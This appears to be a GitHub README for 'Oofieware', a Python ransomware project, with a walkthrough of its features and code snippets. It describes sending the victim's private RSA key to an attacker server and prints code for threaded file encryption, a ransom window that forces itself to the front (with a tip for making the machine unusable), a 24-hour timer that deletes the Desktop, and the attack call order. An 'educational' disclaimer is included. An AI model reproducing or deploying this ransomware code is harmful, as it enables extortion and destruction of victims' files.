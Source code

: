 # Oofieware - A ransomware in Python

![RansomWindow](./assets/ransom.png)

## :pushpin: Quick Start

First, make sure the `.show_sym_key` method in `oofieware.py` is commented out. This method is meant only for debugging purposes, as it writes the symmetric AES key used to encrypt the files to the Desktop.

Run oofieware.py.

## :biohazard: Introduction 

This is a ransomware purely written in Python. It contains all the features a real ransomware might need, such as sending the private RSA key to a remote server, automatically erasing the system after 24 hours if a ransom is not paid, and of course a window with a skull that refuses to go away.

I wrote this as I've been hearing of ransomware for sometime, but never tried to write it myself. So I finally overcame my procrastination and wrote this.

Note that this ransomware is meant for EDUCATIONAl purposes only. In the process of writing this, I educated myself on how ransomware code works, and had to think from the perspective of a malicious actor to make it as realistic as possible. I do not support or condone any criminal activity, and I am not responsible for the actions of anyone who might use this.

Before we delve into the code, special thanks to [@w3w3w3](https://github.com/ncorbuk) for inspiring me to write this. I took reference from his ransomware, though of course I added some of my own features and ways of doing things. The things we can learn from the code of others never ceases to amaze me.

## :computer: Diving into the code

The ransomware is written using OOP, and all the methods are defined in a central class. Let's take a look at some of the methods. I will not be going through everything, only the parts I feel needs more explaining.

Firsly, in `__init__`, there is an arg called gen_rsa that defaults to True. If set to False, the attacker can ship the ransomware with a preset public key, which is used to encrypt the AES-256 symmetric key which was used to encrypt the vistim's files. If left as the default, the victim's machine is used to generate the RSA keys, the private one of which will be sent via a POST request to the attacker's server.

### gen_sym_key()

```py
secure_pw = os.urandom(32)
salt = os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=500000,
)

self.key = base64.urlsafe_b64encode(kdf.derive(secure_pw))
```

For `gen_sym_key()`, I used this method to generate the AES-256 key instead of directly using Fernet.generate_key() as this gives a more secure key.

### crypt_system()

```py
if not (os.stat(file_path).st_size > self.LARGE_SIZE):
    self.crypt_file(file_path)
else:
    t = threading.Thread(target=self.crypt_file, args=(file_path,))
    self.threads.append(t)
    t.start()
```

This snippet checks the size of the file. If the file is larger than `self.LARGE_SIZE` (which is defined as 50 mil bytes, or 50mb), the encryption for that file is started in a separate thread to improve efficiency.

### wait_till_finish()

As can be seen in the example above, each thread is appended to the array `self.threads`.

```py
def wait_till_finish(self):
    for thr in self.threads:
        thr.join()

    self.threads = []
```

The method I originally set to directly run after crypt_system was `enc_key()`, which encrypts the symmetric key with the public key. And it sets the `self.encrypter` object, which is used to encrypt files, to none. This causes a potential exception as when the `self.encrypter` object is set to None, one/multiple of the threads used to encrypt files > 50MB may still be running, so setting the `self.encrypter` object to None stops the encryption of these large files and causes an exception. Hence, I added this `wait_till_finish` method, which takes the threads previously appended to `self.thread`s and applies the `.join()` method to them, effectively blocking the main loop from proceeding to `enc_key` until all the large files have been encrypted as well. This prevents the exception and ensures that the encryption is completed. 

self.threads is then set to None to facilitate later decryption of the system.

### elevate_ransom_window()

```py
while True:
    topWindow = pg.getActiveWindow()
    if topWindow.title != "Ransom Note":
        try:
            win = pg.getWindowsWithTitle('Ransom Note')[0]
            win.minimize()
            win.restore()
        except:
            continue
    sleep(10) # take away completely to annoy the fuck out of victim
```

This constantly makes the ransom window the top window with fullscreen enabled. However, for debugging purposes, a sleep(10) is introduced. If this sleep(10) is removed, the victim's computer would be essentially inoperable due to this window repeatedly forcing itself to the front. At least until perhaps the victim shuts down the computer. Still, that does not change the fact that their files would already be encrypted, as the ransom window only shows itself WHEN all files have been encrypted.

Note that `elevate_ransom_window` is started in a separate thread and is started before `show_ransom_window()`, so that it does not interfere with the blocking call `window.mainloop` that is used in `show_ransom_window()`. The same is true for the method `detect_dec_key`.

### detect_dec_key()

This method is also called in a separate thread before `show_ransom_window()`. It scans the victim's Desktop every 5 seconds to check if a decryption key has been given, and if one is given, the decryption of the files will begin.

### show_ransom_window() and erase_system()

`show_ransom_window` shows the ransom window, which is made using the python module [Tkinter](https://docs.python.org/3/library/tkinter.html). However, there is one part I would like to explain.

```py
eraseTimer = threading.Timer(60*60*24, self.erase_system)
eraseTimer.start()
```

```py
def erase_system(self):
    for root, dirs, files in os.walk(self.Desktop, topdown = True):
        try:
            shutil.rmtree(os.path.join(root, dirs))
        except OSError as e:
            pass
```

This starts a timer in a separate thread, a timer that erases the victim's entire Desktop and all the folders and files inside it after 24 hours, if the ransom is not paid. The erase_system() is what will be called after 24 hours.

### The Order

```py
def attack():
    oof = oofieWare(gen_rsa = True)
    oof.gen_sym_key()
    oof.gen_rsa_keypair()
    oof.crypt_system()
    oof.show_sym_key() # for debugging purposes, DON'T use this line irl
    oof.wait_till_finish()
    oof.encrypt_key()
    elevate = threading.Thread(target = oof.elevate_ransom_window)
    elevate.start()
    detect = threading.Thread(target = oof.detect_dec_key)
    detect.start()
    oof.show_ransom_window()
    
attack()
```

Methods should be called in the pre-defined order to prevent any unexpected occurences. Note that `show_sym_key()` is only for debugging and should not be used in an actual attack.

## :keyboard: Fin

I hope you find this useful. Take care and remember not to run this by accident on your host OS!